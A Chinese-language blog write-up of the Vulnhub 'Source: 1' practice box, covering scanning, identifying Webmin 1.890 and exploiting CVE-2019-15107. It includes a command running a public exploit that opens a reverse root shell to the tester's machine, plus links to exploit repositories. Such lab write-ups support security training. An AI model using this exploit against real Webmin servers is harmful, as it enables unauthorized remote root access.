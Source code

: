 ```yaml
---
layout: post
title: 'Vulnhub-Source-1（CVE-2019-15107）'
date: "2025-03-12T00:37:32Z"
---
```

Vulnhub-Source-1（CVE-2019-15107）
================================

一、靶机搭建
======

选择打开选项

![](https://track123.oss-cn-beijing.aliyuncs.com/20250311130231233.png)

选中下载的ova文件，然后导入选择一个存放路径即可

![](https://track123.oss-cn-beijing.aliyuncs.com/20250311130312677.png)

如果遇到不兼容的情况，可以打开**.vmx**修改，改为和虚拟机一个版本号

![](https://track123.oss-cn-beijing.aliyuncs.com/20250311130434073.png)

二、信息收集
======

官方信息
----

    Name: Source: 1
    Date release: 17 Jul 2020
    难度：初级
    描述：为 AttackerKB 聊天室创建的简单 CTF 盒子。这是练习的独立版本。这个框可能会出现在供应链攻击的后续房间里，因为它是一个很好的最新例子。
    

扫ip
---

靶机ip：**192.168.108.154**

![](https://track123.oss-cn-beijing.aliyuncs.com/20250311132038411.png)

扫开放服务和端口
--------

开放了**22和10000**端口

![](https://track123.oss-cn-beijing.aliyuncs.com/20250311132216202.png)

指纹探测
----

    nmap 192.168.108.154 -p 22,10000 -sV -sC -O --version-all 
    

没什么可以利用的信息，看到**10000**端口版本信息，**MiniServ 1.890** （Webmin httpd）

![](https://track123.oss-cn-beijing.aliyuncs.com/20250311132432570.png)

目录扫描
----

**dirsearch**扫描看看，扫不出来

![](https://track123.oss-cn-beijing.aliyuncs.com/20250311132920149.png)

**dirb**扫描，无结果

![](https://track123.oss-cn-beijing.aliyuncs.com/20250311132658263.png)

三、Web渗渗透
========

访问**10000**端口，是一个登录网站，源码和指纹信息都没有什么利用点

![](https://track123.oss-cn-beijing.aliyuncs.com/20250311133049796.png)

想到刚才找到的网站版本号，查找一下历史漏洞

![](https://track123.oss-cn-beijing.aliyuncs.com/20250311140538926.png)

下载下来查看一下，需要结合**msf**才能使用

![](https://track123.oss-cn-beijing.aliyuncs.com/20250311140605698.png)

CVE-2019-15107-Webmin远程命令执行漏洞
-----------------------------

上网搜一下看看，存在漏洞，参考文章：

    https://github.com/squid22/Webmin_CVE-2019-15107
    https://github.com/jas502n/CVE-2019-15107?tab=readme-ov-file
    

![](https://track123.oss-cn-beijing.aliyuncs.com/20250311140655756.png)

下载exp到kali

四、提权
====

赋予权限

![](https://track123.oss-cn-beijing.aliyuncs.com/20250311140807009.png)

开启监听端口，并执行脚本

    ./webmin_exploit.py 192.168.108.154 10000 192.168.108.130 4444
    

![](https://track123.oss-cn-beijing.aliyuncs.com/20250311140852999.png)

拿到root权限

![](https://track123.oss-cn-beijing.aliyuncs.com/20250311140329064.png)

在跟目录下发现**flag**

![](https://track123.oss-cn-beijing.aliyuncs.com/20250311140947135.png)

flag：**THM{UPDATE\_YOUR\_INSTALL}**